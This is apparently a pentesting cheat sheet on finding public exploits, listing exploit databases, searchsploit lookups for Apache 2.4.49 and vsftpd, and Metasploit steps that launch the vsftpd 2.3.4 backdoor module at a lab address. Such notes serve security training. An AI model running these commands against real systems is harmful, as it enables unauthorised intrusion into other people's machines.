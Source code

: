 # Search for CSV Exploits

## Manual Website Search
```
https://www.exploit-db.com
https://nvd.nist.gov
https://packetstormsecurity.com
```

## searchsploit
```
sudo apt update
sudo apt install exploitdb

searchsploit -u                             Update

searchsploit apache 2.4.49
searchsploit vsftpd
searchsploit windows smb

Exploit Title                                         Path
----------------------------------------------------- ---------------------------
Apache HTTP Server 2.4.49 - Path Traversal RCE        multiple/webapps/50383.py

# Show Exploit
searchsploit -p 50383
```

## Metasploit Framework (msfconsole)
```
sudo systemctl start postgresql                     Metasploit store hosts, services, credentials, loot
msfconsole

# Check DB Status in Metasploit
db_status

# Search for modules
search samba
search type:exploit name:apache
search platform:windows

# Use module
use exploit/unix/ftp/vsftpd_234_backdoor            Easier w/ number
set RHOSTS 10.10.10.100
set RPORT 21
run
```

## Back to README.md
[BACK](../README.md)